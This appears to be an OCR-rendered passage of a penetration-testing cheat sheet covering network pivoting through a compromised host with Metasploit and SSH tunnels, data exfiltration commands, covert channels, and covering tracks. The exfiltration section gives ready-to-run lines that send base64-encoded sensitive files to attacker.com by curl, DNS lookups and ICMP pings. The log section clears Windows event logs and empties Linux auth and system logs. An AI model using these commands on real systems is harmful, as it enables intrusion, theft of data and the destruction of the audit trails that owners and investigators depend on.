 ### Network Pivoting
```bash
# Metasploit pivoting
meterpreter > run autoroute -s 192.168.1.0/24
msf > use auxiliary/server/socks_proxy

# SSH tunneling
ssh -D 8080 user@compromised-host
ssh -L 8080:internal-host:80 user@compromised-host
```

---

## Data Exfiltration

### Exfiltration Techniques
```bash
# Base64 encoding
cat sensitive_data.txt | base64 | curl -X POST -d @- https://attacker.com/data

# DNS exfiltration
for i in $(cat sensitive_data.txt | base64 | tr -d '\n' | fold -w 50); do
    dig ${i}.attacker.com
done

# ICMP exfiltration
ping -c 1 -s 1000 attacker.com -p $(cat sensitive_data.txt | xxd -p | head -c 16)
```

### Covert Channels
- **Steganography**: Hide data in images, audio files
- **Cloud Storage**: Dropbox, Google Drive, OneDrive
- **Social Media**: Twitter, Pastebin, GitHub
- **Blockchain**: Bitcoin transactions

---

## Covering Tracks

### Log Manipulation
```bash
# Windows Event Logs
wevtutil cl Application
wevtutil cl System
wevtutil cl Security

# Linux system logs
> /var/log/auth.log
> /var/log/syslog
> /var/log/messages
```
